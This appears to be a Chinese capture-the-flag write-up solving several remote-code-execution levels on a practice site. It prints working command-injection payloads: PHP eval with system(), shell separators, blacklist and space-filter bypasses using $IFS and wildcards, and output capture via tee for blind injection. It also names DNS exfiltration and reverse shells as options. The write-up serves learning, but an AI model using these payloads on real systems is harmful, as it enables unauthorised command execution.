










## RCE_LEVEL_1




原来尝试 a=cat /flag报错

```
服务端处理输入的是 eval($_POST['a']);
eval() 是 PHP 语言结构，它接收并执行的是 PHP 语法代码。
当前在 Body 中填写的 cat /flag 是 Linux Shell 命令，并不是合法的 PHP 代码。

询问过ai之后告诉我是
a=system("cat /flag");
```

## RCE_LEVEL_3




这道题比较简单，有system执行函数，直接输入命令就OK了

## RCE_LEVEL_4




这题没有什么限制，直接在url后面跟上?ip=127.0.0.1;cat /flag即可，有任何限制

## RCE_LEVEL_5

这道题目是黑名单绕过，比较简单


可以使用“*,?,"",'',\,内联执行绕过”

```php
a=c;b=a;c=t;$a$b$c /flag.php
a=f;c=a;d=g;b=l;cat $a$b$c$d.php
```



## RCE_LEVEL_7




源代码中可以看出过滤了 空格和flag，那就尝试

```url
?cmd=cat</fl*
（失败）
?cmd=cat$IFS$9/fl*
（成功）
```

## RCE_LEVEL_8

看到源代码后首先尝试把后面的代码当做注释看看能不能给绕过了，不执行后面的代码

```url
http://challenge.qsnctf.com:45599/?cmd=cat /flag#
http://challenge.qsnctf.com:45599/?cmd=cat /flag-- +
```

结果失败了


然后想到这应该算是无回显RCE，所以尝试

```
tee,cp,mv,>,>>,dnslog外带，反弹shell
```



构造

```url
http://challenge.qsnctf.com:45599/?cmd=cat /flag | tee a
```

访问

```url
http://challenge.qsnctf.com:45599/a
```

然后自动下载了文件a，打开之后flag就在里面




## RCE_LEVEL_8

看到过滤了字母就想到是无字母命令执行_八进制转义


然后尝试在网站直接生成paylaod




结果发现失败了




问过ai才知道，$'...' 会把整个引号内的八进制解析成一个连续的字符串 → cat /flag。注意这时的空格是字符串内部的字符，不是命令行分词的分隔符。bash 把 cat /flag 整体当作一个命令名去 PATH里找，结果就是 command not found——效果等同于你在终端敲**"cat /flag"(带引号)**。


闹乌龙了


所以先将 cat 转变，然后再将 /flag 转变





